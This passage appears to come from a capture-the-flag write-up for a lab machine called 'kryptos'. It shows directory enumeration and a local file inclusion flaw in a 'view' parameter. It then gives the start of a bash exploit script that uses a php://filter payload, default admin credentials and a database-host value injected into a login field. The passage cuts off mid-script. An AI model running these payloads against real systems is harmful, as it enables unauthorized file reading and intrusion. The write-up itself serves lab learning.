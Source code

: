 Earlier on, the directory enumeration found one `403 Forbidden`, which was `dev`. Extending my observation to include `dev`, the decrypted text is:

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://kryptos/dev/">here</a>.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at kryptos Port 80</address>
</body></html>
```

Surely this is encouraging. Let's pop that trailing `/` in.

```html
<html>
    <head>
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?view=about">About</a>
            <a href="index.php?view=todo">ToDo</a>
        </div>
</body>
</html>
```

Boom. Long story short, the LFI vulnerability lies with the `view` parameter and I wrote the following script to exploit this vulnerability to read files and display them to `stdout`.

<div class="filename"><span>holycow.sh</span></div>

```bash
#!/bin/bash

IP=$(ifconfig | grep -A1 tun0 | sed '2!d' | awk '{ print $2 }')
HOST=10.10.10.129
HOSTNAME=kryptos
FILE=$1
LFI="php://filter/convert.base64-encode/resource=$FILE"
VIEW="http://$HOSTNAME/dev/index.php?view=$LFI"
CIPHER="encrypt.php?cipher=RC4&url=$VIEW"

TOKEN=$(curl -c cookie \
             -s \
             http://$HOST \
        | grep token \
        | cut -d'"' -f6)

# login
curl -b cookie \
     -s \
     -o /dev/null \
     -d "username=admin" \
     -d "password=admin" \
     -d "db=cryptor%3Bhost%3D$IP" \
     -d "token=$TOKEN" \
     -d "login=" \
     "http://$HOST/index.php"

# encrypt
RC4=$(curl -b cookie \
           -s \
```